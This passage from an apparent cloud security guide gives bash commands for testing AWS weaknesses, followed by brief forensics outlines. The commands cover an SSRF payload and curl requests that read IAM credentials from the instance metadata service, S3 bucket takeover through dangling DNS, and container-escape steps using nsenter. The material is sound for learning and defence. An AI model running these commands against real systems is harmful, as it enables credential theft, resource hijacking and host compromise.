 ```bash
# Test SSRF to access metadata service
aws lambda invoke --function-name ssrf_test --payload '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/"}' response.json

# 3. Test for S3 bucket takeover
# Check for dangling DNS records pointing to S3 buckets
dig CNAME example.com
# If pointing to non-existent bucket: example.com.s3.amazonaws.com
# Create the bucket to take it over
aws s3api create-bucket --bucket example-com --region us-east-1

# 4. Test for EC2 instance metadata service (IMDS) access
# SSH to an EC2 instance and try:
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# For IMDSv2:
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/

# 5. Test for container escape in ECS/EKS
# If you have access to a container, try:
# Check if we're in a container
cat /proc/1/cgroup | grep docker

# Check for mounted host paths
mount | grep host

# Check capabilities
capsh --print

# Try to access host network namespace
nsenter --target 1 --mount --uts --ipc --net --pid -- ps aux
```

### 7.2 Cloud Forensics and Incident Response

Investigating security incidents in cloud environments:

1. **Cloud Forensic Challenges**:
   - Ephemeral resources
   - Limited access to underlying infrastructure
   - Multi-tenant environments
   - Data sovereignty issues
   - Provider-dependent capabilities

2. **Cloud Forensic Data Sources**:
   - Cloud service logs
   - API call history
   - Network flow logs
   - Instance memory and disk
   - Billing and usage data

